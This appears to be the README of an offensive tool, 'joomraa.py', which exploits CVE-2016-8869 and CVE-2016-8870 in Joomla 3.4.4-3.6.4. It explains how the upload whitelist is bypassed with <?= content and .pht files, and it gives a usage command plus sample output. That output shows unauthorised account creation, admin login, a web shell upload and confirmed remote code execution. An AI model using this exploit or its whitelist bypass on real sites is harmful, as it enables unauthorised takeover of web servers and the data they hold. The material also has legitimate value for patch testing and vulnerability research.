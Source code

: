 Exploit for Joomla 3.4.4 - 3.6.4 (CVE-2016-8869 and CVE-2016-8870) with File Upload web shell

While analysing the recent Joomla exploit in com_users:user.register we came across a problem with the upload whitelisting. They don't allow files containing <?php, or with the extensions .php and .phtml, but they do allow <?= and .pht files, which works out of the box on most hosting environments, including the standard Ubuntu LAMP install, as per:

<FilesMatch ".+\.ph(p[345]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
Usage

Choose the username, password and e-mail address to use and point it at the URL for your Joomla website. Use the -x and -s options to customise exploit behaviour, -s searches for the given string in the output after running the PHP file (specified in -x), an example is provided which proves remote code execution.

$ ./joomraa.py -u hacker -p password -e hacker@example.com http://localhost:8080/joomla 

     @@@   @@@@@@    @@@@@@   @@@@@@@@@@   @@@@@@@    @@@@@@    @@@@@@   @@@  
     @@@  @@@@@@@@  @@@@@@@@  @@@@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@  
     @@!  @@!  @@@  @@!  @@@  @@! @@! @@!  @@!  @@@  @@!  @@@  @@!  @@@  @@!  
     !@!  !@!  @!@  !@!  @!@  !@! !@! !@!  !@!  @!@  !@!  @!@  !@!  @!@  !@   
     !!@  @!@  !@!  @!@  !@!  @!! !!@ @!@  @!@!!@!   @!@!@!@!  @!@!@!@!  @!@  
     !!!  !@!  !!!  !@!  !!!  !@!   ! !@!  !!@!@!    !!!@!!!!  !!!@!!!!  !!!  
     !!:  !!:  !!!  !!:  !!!  !!:     !!:  !!: :!!   !!:  !!!  !!:  !!!       
!!:  :!:  :!:  !:!  :!:  !:!  :!:     :!:  :!:  !:!  :!:  !:!  :!:  !:!  :!:  
::: : ::  ::::: ::  ::::: ::  :::     ::   ::   :::  ::   :::  ::   :::   ::  
 : :::     : :  :    : :  :    :      :     :   : :   :   : :   :   : :  :::  

[-] Getting token
[-] Creating user account
[-] Getting token for admin login
[-] Logging in to admin
[+] Admin Login Success!
[+] Getting media options
[+] Setting media options
[*] Uploading exploit.pht
[*] Uploading exploit to: http://localhost:8080/joomla/images/OGBUHCF5F.pht
[*] Calling exploit
[$] Exploit Successful!
[*] SUCCESS: http://localhost:8080/joomla
Licence

Licenced under the WTFPL
